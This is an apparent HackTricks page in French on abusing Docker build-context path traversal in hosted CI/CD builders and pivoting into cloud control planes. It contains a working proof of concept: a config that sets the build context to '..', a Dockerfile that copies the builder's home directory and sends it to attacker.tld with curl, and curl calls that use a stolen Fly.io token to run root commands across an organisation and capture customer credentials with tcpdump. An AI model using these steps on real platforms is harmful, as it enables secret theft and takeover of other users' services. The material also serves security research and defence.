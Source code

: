 # Abuser du Docker Build Context dans les builders hébergés (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Si une plateforme CI/CD ou un hosted builder permet aux contributeurs de spécifier le chemin du Docker build context et le chemin du Dockerfile, vous pouvez souvent définir le contexte sur un répertoire parent (par ex., "..") et inclure des fichiers de l’hôte dans le build context. Ensuite, un Dockerfile contrôlé par l’attaquant peut utiliser COPY et exfiltrate des secrets trouvés dans le home de l’utilisateur du builder (par exemple ~/.docker/config.json). Des registry tokens volés peuvent aussi fonctionner contre les control-plane APIs du fournisseur, permettant un RCE à l’échelle de l’organisation.

## Surface d'attaque

Beaucoup de services de hosted builder/registry font grosso modo ceci lors de la construction d’images soumises par des utilisateurs :
- Lire une configuration au niveau du repo qui inclut :
  - build context path (envoyé au Docker daemon)
  - Dockerfile path relatif à ce contexte
- Copier le répertoire du build context indiqué et le Dockerfile vers le Docker daemon
- Build l’image et l’exécuter comme service hébergé

Si la plateforme ne canonise pas et ne restreint pas le build context, un utilisateur peut le définir sur un emplacement en dehors du dépôt (path traversal), faisant en sorte que des fichiers arbitraires de l’hôte lisibles par l’utilisateur de build deviennent partie du build context et disponibles pour COPY dans le Dockerfile.

Contraintes pratiques couramment observées :
- Le Dockerfile doit résider dans le chemin de contexte choisi et son chemin doit être connu à l’avance.
- L’utilisateur de build doit avoir un accès en lecture aux fichiers inclus dans le contexte ; des fichiers device spéciaux peuvent casser la copie.

## PoC: Path traversal via Docker build context

Exemple de config de serveur malveillant déclarant un Dockerfile dans le contexte du répertoire parent :
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Remarques:
- L'utilisation de ".." se résout souvent vers le répertoire home de l’utilisateur builder (p.ex., /home/builder), qui contient typiquement des fichiers sensibles.
- Placez votre Dockerfile sous le nom de répertoire du repo (p.ex., repo "test" → test/Dockerfile) afin qu'il reste dans le contexte parent étendu.

## PoC: Dockerfile pour ingérer et exfiltrer le contexte de l'hôte
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Cibles couramment récupérées depuis $HOME :
- ~/.docker/config.json (registry auths/tokens)
- Autres caches et configs cloud/CLI (p. ex., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Astuce : Même avec un .dockerignore dans le dépôt, la sélection de contexte côté plateforme vulnérable détermine toujours ce qui est envoyé au daemon. Si la plateforme copie le chemin choisi vers le daemon avant d'évaluer le .dockerignore de votre repo, des fichiers hôtes peuvent encore être exposés.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Certaines plateformes émettent un seul bearer token utilisable à la fois pour le container registry et l'API control-plane. Si vous exfiltrez un registry token, essayez-le contre l'API du provider.

Exemples d'appels API contre Fly.io Machines API en utilisant le token volé depuis ~/.docker/config.json :

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Exécuter une commande en tant que root sur n'importe quelle machine d'une app :
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Résultat : org-wide remote code execution sur toutes les applications hébergées lorsque le token dispose de privilèges suffisants.

## Vol de secrets depuis des services hébergés compromis

Avec exec/RCE sur des serveurs hébergés, vous pouvez récolter des secrets fournis par les clients (API keys, tokens) ou monter des prompt-injection attacks. Exemple : installez tcpdump et capturez le trafic HTTP sur le port 8080 pour extraire les inbound credentials.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Les requêtes capturées contiennent souvent des identifiants client dans les en-têtes, les corps ou les paramètres de requête.

## Références

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}

